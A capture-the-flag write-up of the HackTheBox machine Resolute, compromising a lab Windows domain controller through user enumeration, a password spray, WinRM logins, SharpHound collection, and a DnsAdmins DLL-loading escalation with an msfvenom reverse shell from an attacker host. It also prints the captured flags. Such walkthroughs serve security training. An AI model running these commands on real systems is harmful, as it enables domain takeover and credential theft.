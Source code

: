 ```yaml
---
title: Active - A HackTheBox machine
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
  - active
  - directory
  - windows
  - medium
---
```

# HTB Resolute

## user.txt

Enumerate:

```bash
 sudo nmap -sC -sV $ip -Pn --top-ports 10000
```

Results: 

```bash
Nmap scan report for $ip
Host is up (0.041s latency).
Not shown: 8354 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-01-13 15:32:44Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-01-13T15:32:52
|_  start_date: 2025-01-13T15:30:38
|_clock-skew: mean: 2h47m38s, deviation: 4h37m10s, median: 7m36s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2025-01-13T07:32:54-08:00

```


```bash
crackmapexec smb $ip --users
```

Results:

```bash
SMB         10.129.96.155   445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.129.96.155   445    RESOLUTE         [-] Error enumerating domain users using dc ip 10.129.96.155: NTLM needs domain\username and a password
SMB         10.129.96.155   445    RESOLUTE         [*] Trying with SAMRPC protocol
SMB         10.129.96.155   445    RESOLUTE         [+] Enumerated domain user(s)
SMB         10.129.96.155   445    RESOLUTE         megabank.local\Administrator                  Built-in account for administering the computer/domain
SMB         10.129.96.155   445    RESOLUTE         megabank.local\Guest                          Built-in account for guest access to the computer/domain
SMB         10.129.96.155   445    RESOLUTE         megabank.local\krbtgt                         Key Distribution Center Service Account
SMB         10.129.96.155   445    RESOLUTE         megabank.local\DefaultAccount                 A user account managed by the system.
SMB         10.129.96.155   445    RESOLUTE         megabank.local\ryan                           
SMB         10.129.96.155   445    RESOLUTE         megabank.local\marko                          Account created. Password set to Welcome123!
SMB         10.129.96.155   445    RESOLUTE         megabank.local\sunita                         
SMB         10.129.96.155   445    RESOLUTE         megabank.local\abigail                        
SMB         10.129.96.155   445    RESOLUTE         megabank.local\marcus                         
SMB         10.129.96.155   445    RESOLUTE         megabank.local\sally                          
SMB         10.129.96.155   445    RESOLUTE         megabank.local\fred                           
SMB         10.129.96.155   445    RESOLUTE         megabank.local\angela                         
SMB         10.129.96.155   445    RESOLUTE         megabank.local\felicia                        
SMB         10.129.96.155   445    RESOLUTE         megabank.local\gustavo                        
SMB         10.129.96.155   445    RESOLUTE         megabank.local\ulf                            
SMB         10.129.96.155   445    RESOLUTE         megabank.local\stevie                         
SMB         10.129.96.155   445    RESOLUTE         megabank.local\claire                         
SMB         10.129.96.155   445    RESOLUTE         megabank.local\paulo                          
SMB         10.129.96.155   445    RESOLUTE         megabank.local\steve                          
SMB         10.129.96.155   445    RESOLUTE         megabank.local\annette                        
SMB         10.129.96.155   445    RESOLUTE         megabank.local\annika                         
SMB         10.129.96.155   445    RESOLUTE         megabank.local\per                            
SMB         10.129.96.155   445    RESOLUTE         megabank.local\claude                         
SMB         10.129.96.155   445    RESOLUTE         megabank.local\melanie                        
SMB         10.129.96.155   445    RESOLUTE         megabank.local\zach                           
SMB         10.129.96.155   445    RESOLUTE         megabank.local\simon                          
SMB         10.129.96.155   445    RESOLUTE         megabank.local\naoki  
```

An interesting outcome: 
user: marko
Password: Welcome123!

Now we perform a spray password attack with kerbrute 

```bash
./kerbrute_linux_amd64 passwordspray -d megabank.local --dc $ip ~/borrar/users.txt  Welcome123!
```

Results:

```bash
[+] VALID LOGIN WITH ERROR:	 melanie@megabank.local:Welcome123!	 (Clock skew is too great)
```

We connect via evil-WinRM

```bash
evil-winrm -i $ip -u melanie -p 'Welcome123!'
```

And get the flag:

```bash
type C:\Users\melanie\Desktop\user.txt
```

Results:

```bash
39f05b4fb62a08d8f6cde4ad11d2f40d
```

## Root.txt

```bash
evil-winrm -i $ip -u melanie -p 'Welcome123!'
```

After enumerating and enumerating, everything ended up being an old log of a powershell sequence saved at 

```powershell
C:\PSTranscripts\20191203> type "PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt"
```

User: ryan
Serv3r4Admin4cc123!

However, it's necessary using `dir -force` to be able to spot the directory to start with.


```bash
evil-winrm -i $ip -u ryan -p 'Serv3r4Admin4cc123!'
```

Serve SharpHound.exe and PSUpload.ps1 from our kali machine:

```bash
python -m http.server 8000
```

Retrieve it from the Win-RM connection:

```bash
# Certutil is not working
Invoke-WebRequest http://10.10.14.149:8000/SharpHound.exe -OutFile SharpHound.exe
Invoke-WebRequest http://10.10.14.149:8000/PSUpload.ps1 -OutFile PSUpload.ps1
```

Run the SharpHound collector:

```bash
.\SharpHound.exe -c All --zipfilename enum
```

Get the uploadserver running in our kali:

```bash
python3 -m uploadserver
```

Upload the collector file:

```bash
Import-Module .\PSupload.ps1
Invoke-FileUpload -Uri http://$ipServer:8000/upload -File C:\Users\ryan\Documents\fileenum.zip
```

Run bloodhound in our kali and upload the zip file:

```bash
# In one terminal
sudo neo4j console

# In a second terminal 
bloodhound

# Upload the file
```

Now we can see that RYAN is a nested member of the DNSADMINS:

![](img/htb-resolute01.png)

The DnsAdmins group in Active Directory is a built-in security group with special privileges related to managing the DNS Server Service in a Windows environment. This group is typically present on domain controllers where the DNS Server role is installed.

The group is intended to manage the DNS server configuration for the Active Directory domain. Members of this group can perform administrative tasks related to DNS, such as creating, modifying, or deleting DNS records.

By default, the DnsAdmins group is empty. Administrators must explicitly add users or other groups as members.

Members of the DnsAdmins group can potentially execute arbitrary commands on the DNS server, as they can load custom DLLs into the DNS service. This ability can be exploited to escalate privileges to domain administrator if the DNS server runs on a domain controller.

### Exploit: Loading a Malicious DLL

**Step 1: Create a Malicious DLL**

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.149 LPORT=443 -f dll -o rev.dll
```

**Step 2: Transfer the DLL to the Target**

```bash
Invoke-WebRequest -Uri http://10.10.14.149:8000/dllinjection.dll -OutFile rev.dll
```

But it does not work as Defender is in use. We will share the file from a smbserver in our kali:

```bash
python3 impacket/examples/smbserver.py share ./
```

Now it can be executed from that share location:

**Step 3: Configure the DNS Server to Load the Malicious DLL**

```bash
dnscmd.exe /config /serverlevelplugindll \\10.10.14.149\share\rev.dll
```

**Step 4: Launch a listener in your kali**

```bash
nc -lnvp 443
```

**Step 5: Restart the DNS Service**

```powershell
sc.exe stop dns
sc.exe start dns
```

When the DNS service restarts, it will load the malicious DLL, and the payload in the `DllMain` function will execute. We will see something similar to this in the smbserver:

```
*] Incoming connection (10.129.96.155,53560)
[*] AUTHENTICATE_MESSAGE (MEGABANK\RESOLUTE$,RESOLUTE)
[*] User RESOLUTE\RESOLUTE$ authenticated successfully
[*] RESOLUTE$::MEGABANK:aaaaaaaaaaaaaaaa:a1d137f48aa596c91345a5655a6e99b0:0101000000000000006b0a4cec65db01c58cea7f0585672e0000000001001000560052007a007000520046005a00580003001000560052007a007000520046005a0058000200100
[SNIP]
```


**Step 6: Obtain the flag**

In the listener at port 443 we will obtain a reverse shell. Print the flag.

```bash
type C:\Users\Administrator\Desktop\root.txt
```

Results:  2f18fdc60da2de8a5459d04046f12485

